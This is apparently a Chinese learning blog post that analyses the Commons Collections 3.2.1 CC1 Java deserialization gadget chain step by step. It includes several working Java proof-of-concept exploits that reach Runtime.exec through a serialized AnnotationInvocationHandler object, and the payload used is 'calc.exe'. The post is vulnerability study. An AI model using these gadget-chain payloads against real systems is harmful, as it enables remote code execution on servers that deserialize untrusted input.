

---
`本文是博主的第一篇原创文章，同时博主也是边学java边进行分析的，如有知识性错误或逻辑性问题，希望大家多多批评`

<font color="#FF0033">**这条链是小菜鸡很久之前分析的一条链了，但当时没有写博客，这段时间有空了才来写，所以导致有一些技术细节可能讲的没有到位，因而导致文中有一些地方讲的不是很清楚或有些问题，欢迎大家在评论区或私信批评、交流。如果有什么不懂的，也可以看一下参考的四个链接，讲的都非常的好。**</font>
# 前言
本文主要分析CC1利用链，先介绍了复现环境的搭建（该小节尽量帮大家避避坑，呜呜呜）；然后紧跟着讲解了java反序列化和php反序列化漏洞的区别（希望大家不要有惯性思维认为反序列化漏洞都一样，其实**java反序列化和php反序列化的差别还是很大的**）；并介绍了复现学习java反序列化漏洞所需的一些前置知识；最后，也是文章的主体部分，从Sink（即可以触发执行命令的方法等）、chain及source（即利用链的入口点）三个步骤，讲述利用链的构建。

---


# 一、环境搭建

 1. **JDK版
 本次复现是使用的jdk版本为<font color="#FF0033">**jdk1.8.0_65**</font>。**
 	官网下载地址为：[https://www.oracle.com/cn/java/technologies/javase/javase8-archive-downloads.html](https://www.oracle.com/cn/java/technologies/javase/javase8-archive-downloads.html)。
 	`注：从官网上下载时，下载的包一直不匹配，明明点的是8u65，但它一直显示其他版本，解决该问题的方法是将路径中的/cn给删掉，就可以正常下载了。`
 	
    
 	下载完毕后进行安装，然后就需要对IDEA进行配置：
 	
	(1) 首先点击`File`，然后又点击`Project Structure`：
    

    (2) 然后点击`SDKs`，将下载的jdk添加到该项目中：
    
 2. **CommonsCollections版本为<font color="#FF0033">**3.2.1**</font>。**
 (1) 配置Maven依赖，下载CommonsCollections3.2.1版本，只需将下述配置添加到`pom.xml`中即可：
	```
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.2.1</version>
        </dependency>
	```
    

	(2) 后再`Download Sources`即可：
    

 3. **下载相应源码**
 (1) 后续分析中需要用到`sun`包下的`AnnotationInvocationHandler`类文件，但是默认自带的是`.class`文件，源码是反编译出来的，不方便阅读，因此为了方便调试，需要将其转换为`.java`文件，需要我们安装源码，下载地址为：[https://hg.openjdk.org/jdk8u/jdk8u/jdk/rev/af660750b2f4](https://hg.openjdk.org/jdk8u/jdk8u/jdk/rev/af660750b2f4)，下载左侧的zip文件即可。
 
(2) 然后解压，进入到相应JDK的文件夹中，里面本来就有个src.zip的压缩包，我们解压到当前文件夹下，然后把之前源码包(jdk-af660750b2f4.zip)中/src/share/classes下的sun文件夹拷贝到src文件夹中去。打开IDEA，选择文件 --->项目结构 --->SDK --->源路径 --->把src文件夹添加到源路径下，保存即可。


# 二、java反序列化和php反序列化漏洞的区别
这里简单说一下个人认为的**核心区别**吧：php反序列化是 <font color="#FF0033">**利用php本身自带的魔法函数（其中可能包含一些可以执行命令的敏感函数）**</font>构造pop链从而链式触发反序列化漏洞；而java反序列化是需要找到一个 <font color="#FF0033">**重写了readObject的类**</font>，通过可以执行任意命令或方法的函数或类，反推一系列子类（<font color="#FF0033">**必须是实现了Serializable接口的**</font>），进而形成利用链，java本身并没有设置好的魔法函数进行利用，因此会复杂一些。

# 三、前置知识
阅读本文章前需要知道如下前置知识：

 - java序列化与反序列化基础
 - java反射基础
> java反射学习参考链接：https://blog.csdn.net/sinat_38259539/article/details/71799078
> 本文参考：https://github.com/Maskhe/javasec/blob/master/3.%20apache%20commons-collections%E4%B8%AD%E7%9A%84%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96.md


# 四、利用链分析
下面的分析是按照Source->Chain->Sink链式原则进行反推的，其中Source为反序列化的入口（即重写了readObject方法的类），Chain为利用链，Sink为可以执行任意命令或方法的危险函数。
## 1、Sink
### 1.1 Transformer接口
Transformer接口的完整路径为org.apache.commons.collections.Transformer，还接口是将一个对象变为另一个对象，源码如下：


接下来我们看一下该接口被哪些类实现了，可以点击鼠标右键，查看`Find Usages`，重点关注以下三个类：InvokerTransformer，ChainedTransformer及ConstantTransformer，CC1利用链就是利用这三个类进行构建。


### 1.2 InvokerTransformer
我们重点关注`transform`方法，解释是说通过在输入上调用一个方法，可以将输入转换为一个结果。再查看一下源码，明显看到是通过反射来调用对象的方法，稍微具体点说就是通过反射获取`input`的Class对象，然后获取方法名为`iMethodName`、参数类型为`iParamTypes`的方法，最后传入`iArgs`参数并执行该方法。


那么继续想，上面提到的参数是哪里来的，继续往上找构造函数，可以看到通过下面的构造函数赋值得到：


于是猜测，`InvokerTransformer`类下的`transform`方法可不可以通过反射执行我们输入的`input`下的任意方法呢？于是写一个demo尝试一下，其中参数完全按照`InvokerTransformer`要求的格式来就ok了。
```java
package org.example;
import org.apache.commons.collections.functors.InvokerTransformer;
public class test1{
    public static void main(String[] args) throws Exception{
        Runtime runtime = Runtime.getRuntime();
        InvokerTransformer it = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
        it.transform(runtime);
    }
}
```
运行上述代码，可以看到成功弹了个计算器出来：

 
 <font color="#FF0033">**这可以执行任意命令或代码的方法不就来了嘛！！！也就是我们要找的Sink！**</font>接下来就是一步步回溯，寻找合适的子类，构造漏洞链，直到找到重写了readObject的类。
## 2、Chain and Source
### 2.1 回溯寻找哪个类的哪个方法调用了InvokerTransformer#transform()---TransformerMap#checkSetValue()
同理，直接对`InvokerTransformer`的`transform`右键Find Usages，可以发现TransformerMap类下有三个方法都调用了，我们直接看checkSetValue方法：


直接查看其源码，该方法以及构造方法都是protected权限的，不能从外部访问，那么我们就需要找到一个可以内部实例化的方法：
```java
    ...
    ...
    protected TransformedMap(Map map, Transformer keyTransformer, Transformer valueTransformer) {
        super(map);
        this.keyTransformer = keyTransformer;
        this.valueTransformer = valueTransformer;
    }
    ...
    ...
    protected Object checkSetValue(Object value) {
        return valueTransformer.transform(value);
    }
```
继续在TransformerMap类里面找，可以找到一个public的decorate方法，可以实例化一个对象，解决了TransformerMap类内部的valueTransformer变量赋值的问题：


至此，利用链为：`TransformerMap#decorate(map,null,InvokerTransformer)=>InvokerTransormer#transform`，对应poc如下：

```java
package org.example;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.util.HashMap;
import java.util.Map;

public class test01 {
    public static void main(String[] args) throws Exception{
        Runtime runtime = Runtime.getRuntime();
        InvokerTransformer invokertransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
      
        HashMap<Object,Object> map = new HashMap<>();
        Map transformedmap = TransformedMap.decorate(map,null,invokertransformer);
    }
}

```
### 2.2 回溯寻找谁调用了TransformerMap#checkSetValue方法
同样的方法，找到了AbstractInputCheckedMapDecorator类的setValue：


查看源码，定义了一个副类为`MapEntry`，其中`Entry`是`Map`中的一个键值对，同时`MapEntry`重写了原本`Map`类中的`setValue`方法，而且TransformerMap也继承了AbstractInputCheckedMapDecorator类，那么我们继续找谁调用了这个setValue方法。

```java
    static class MapEntry extends AbstractMapEntryDecorator {

        /** The parent map */
        private final AbstractInputCheckedMapDecorator parent;

        protected MapEntry(Map.Entry entry, AbstractInputCheckedMapDecorator parent) {
            super(entry);
            this.parent = parent;
        }

        public Object setValue(Object value) {
            value = parent.checkSetValue(value);
            return entry.setValue(value);
        }
    }
```
### 2.3 回溯寻找调用了setValue的某类某方法--AnnotationInvocationHandler类
在AnnotationInvocationHandler类中，找到了一个调用了setValue方法的readObject方法，其内部可以看到存在一个`memberValue.setValue`，如果我们让memberValues为TransformedMap对象，就可以利用了。

```java
    private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
        s.defaultReadObject();

        // Check to make sure that types have not evolved incompatibly

        AnnotationType annotationType = null;
        try {
            annotationType = AnnotationType.getInstance(type);
        } catch(IllegalArgumentException e) {
            // Class is no longer an annotation type; time to punch out
            throw new java.io.InvalidObjectException("Non-annotation type in annotation serial stream");
        }

        Map<String, Class<?>> memberTypes = annotationType.memberTypes();

        // If there are annotation members without values, that
        // situation is handled by the invoke method.
        for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
            String name = memberValue.getKey();
            Class<?> memberType = memberTypes.get(name);
            if (memberType != null) {  // i.e. member still exists
                Object value = memberValue.getValue();
                if (!(memberType.isInstance(value) ||
                      value instanceof ExceptionProxy)) {
                    memberValue.setValue(
                        new AnnotationTypeMismatchExceptionProxy(
                            value.getClass() + "[" + value + "]").setMember(
                                annotationType.members().get(name)));
                }
            }
        }
    }
```
那么来看一下AnnotationInvocationHandler类的构造方法，可以看到类中的memberValues是可控的，但是注意观察这个构造方法，并没有写public之类的声明，也就意味着这个类只能在sun.reflect.annotation这个包下进行调用，因此如果想在外部调用的话，需要通过反射来实现：
```java
AnnotationInvocationHandler(Class<? extends Annotation> type, Map<String, Object> memberValues) {
        Class<?>[] superInterfaces = type.getInterfaces();
        if (!type.isAnnotation() ||
            superInterfaces.length != 1 ||
            superInterfaces[0] != java.lang.annotation.Annotation.class)
            throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");
        this.type = type;
        this.memberValues = memberValues;
    }
```
至此，利用链基本找到了，如下：


其对应的poc如下：

```java
package org.example;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class test01 {
    public static void main(String[] args) throws Exception{
        Runtime runtime = Runtime.getRuntime();
        InvokerTransformer invokertransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});

        HashMap<Object,Object> map = new HashMap<>();
        map.put("pear","pear");
        Map transformedmap = TransformedMap.decorate(map,null,invokertransformer);

        Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ctor = cl.getDeclaredConstructor(Class.class,Map.class);
        ctor.setAccessible(true);
        Object instance = ctor.newInstance(Override.class,transformedmap);
        //序列化
        FileOutputStream fileOutputStream = new FileOutputStream("serialize_1.txt");
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
        objectOutputStream.writeObject(instance);
        objectOutputStream.close();
        //反序列化
        FileInputStream fileInputStream = new FileInputStream("serialize_1.txt");
        ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
        Object result = objectInputStream.readObject();
        objectInputStream.close();
    }
}
```
问题来了，当运行上述代码时，没有弹出计算器，因为我们构造本身就存在问题：runtime根本没有传进去，而且Runtime是没有实现反序列化接口的；这该如何解决呢？我们可以获取Runtime的Class对象，Class类是实现了Serializable接口的，然后通过反射构建出我们想要的结果出来。正常通过反射构建的过程如下：

```java
        Class cl = Runtime.class;
        Method getRuntimeMethod = cl.getMethod("getRuntime",null);
        Runtime r = (Runtime) getRuntimeMethod.invoke(null,null);
        Method execMethod = cl.getMethod("exec", String.class);
        execMethod.invoke(r,"calc");
```
可以成功弹出计算器：


但此时我们需要将其改写成InvokerTransformer的形式如下，但是这样嵌套创建太麻烦了：

```java
        Class rc=Class.forName("java.lang.Runtime");
        Method getRuntime= (Method) new InvokerTransformer("getDeclaredMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}).transform(Runtime.class);
        Runtime r=(Runtime) new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}).transform(getRuntime);
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}).transform(r);
```
于是找到了另一个ChainedTransformer类，它也存在transform方法，可以帮助我们拼接好上述过程，如下：

```java
        Transformer[] Transformers=new Transformer[]{
                new InvokerTransformer("getDeclaredMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer= new ChainedTransformer(Transformers);
        chainedTransformer.transform(Runtime.class);
```
然后，我们的poc变成了如下形式：

```java
 Transformer[] transformers = new Transformer[]{
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
        };
        //将数组transformers传给ChainedTransformer，构造利用链
        Transformer transformerChain = new ChainedTransformer(transformers);
        //invokertransformer.transform(runtime);

        HashMap<Object,Object> map = new HashMap<>();
        map.put("pear","pear");
        Map transformedmap = TransformedMap.decorate(map,null,transformerChain);

        Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ctor = cl.getDeclaredConstructor(Class.class,Map.class);
        ctor.setAccessible(true);
        Object instance = ctor.newInstance(Override.class,transformedmap);
        //序列化
        FileOutputStream fileOutputStream = new FileOutputStream("serialize_1.txt");
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
        objectOutputStream.writeObject(instance);
        objectOutputStream.close();
        //反序列化
        FileInputStream fileInputStream = new FileInputStream("serialize_1.txt");
        ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
        Object result = objectInputStream.readObject();
        objectInputStream.close();
```
点击运行后，发现依然没有成功，又有问题出现了，此时可以在反序列化的地方打上断点，然后去分析，发现在调用AnnotationInvocationHandler类下的readObject方法时，存在一个判断条件：

打上断点调试跟进，发现此时memberType为空，所以第一个if就无法通过，而这里的memberType是获取注解中的成员变量的名称，然后检查键值对中键名是否有应的名称：


但是我们使用的注解是没有成员变量的：


于是更换注解为Target，其中有一个名为value的成员变量，同时更改设置的键值对的键为“value”，poc为如下版本：

```java
package org.example;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;
import java.lang.annotation.Target;

public class test01 {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[]{
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
        };
        //将数组transformers传给ChainedTransformer，构造利用链
        Transformer transformerChain = new ChainedTransformer(transformers);
        //invokertransformer.transform(runtime);

        HashMap<Object,Object> map = new HashMap<>();
        map.put("value","pear");
        Map transformedmap = TransformedMap.decorate(map,null,transformerChain);

        Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ctor = cl.getDeclaredConstructor(Class.class,Map.class);
        ctor.setAccessible(true);
        Object instance = ctor.newInstance(Target.class,transformedmap);
        //序列化
        FileOutputStream fileOutputStream = new FileOutputStream("serialize_1.txt");
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
        objectOutputStream.writeObject(instance);
        objectOutputStream.close();
        //反序列化
        FileInputStream fileInputStream = new FileInputStream("serialize_1.txt");
        ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
        Object result = objectInputStream.readObject();
        objectInputStream.close();
    }
}

```
但是运行之后会发现，报错了，意思是说getMethod方法不存在，并且根据下面的调用栈可以得出的结论是InvokerTransformer.transform方法的参数是有问题的，发现传入的value值不是我们想要的Runtime.class：

于是我们想实现的效果是传入什么就返回什么，需要ConstantTransformer类，将value值转换为Runtime.class，所以最终poc为：

```java
package org.example;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;
import java.lang.annotation.Target;

public class test01 {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
        };
        //将数组transformers传给ChainedTransformer，构造利用链
        Transformer transformerChain = new ChainedTransformer(transformers);
        //invokertransformer.transform(runtime);

        HashMap<Object,Object> map = new HashMap<>();
        map.put("value","pear");
        Map transformedmap = TransformedMap.decorate(map,null,transformerChain);

        Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ctor = cl.getDeclaredConstructor(Class.class,Map.class);
        ctor.setAccessible(true);
        Object instance = ctor.newInstance(Target.class,transformedmap);
        //序列化
        FileOutputStream fileOutputStream = new FileOutputStream("serialize_1.txt");
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
        objectOutputStream.writeObject(instance);
        objectOutputStream.close();
        //反序列化
        FileInputStream fileInputStream = new FileInputStream("serialize_1.txt");
        ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
        Object result = objectInputStream.readObject();
        objectInputStream.close();
    }
}

```


---

# 总结

 <font color="#FF0033">**纸上得来终觉浅，绝知此事要躬行**</font>。如果想要真正理解一个漏洞，的确是需要自己动手从底层一步步去搭建复现并分析的，并且通过分析并理解了这一个利用链后，博主自大地认为：web安全领域中关于java框架的绝大多数漏洞，都已不在话下啦哈哈哈哈哈哈！接下来很多都是举一反三的过程啦！

`注：再次提醒，如果在读的过程中有什么问题，可以写在评论区讨论`

# 参考(每一个讲的都很好)
[1] [apache commons-collections中的反序列化](https://github.com/Maskhe/javasec/blob/master/3.%20apache%20commons-collections%E4%B8%AD%E7%9A%84%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96.md)\
[2] [Java反序列化漏洞Apache CommonsCollections分析
](https://mp.weixin.qq.com/s/bkdIBpJqheI0oFF9u5YJOg)\
[3] [Java反序列化CommonsCollections篇(一) CC1链手写EXP
](https://www.bilibili.com/video/BV1no4y1U7E1/?spm_id_from=333.337.search-card.all.click&vd_source=bb024c7369705c1cd3e7f3ac566f2770)\
[4] [JAVA安全初探(三):CC1链全分析](https://xz.aliyun.com/t/12669?time__1311=mqmhDvqIxfgD8DlxGo4%2bxCwaaz3QeqwD&alichlgref=https://cn.bing.com/)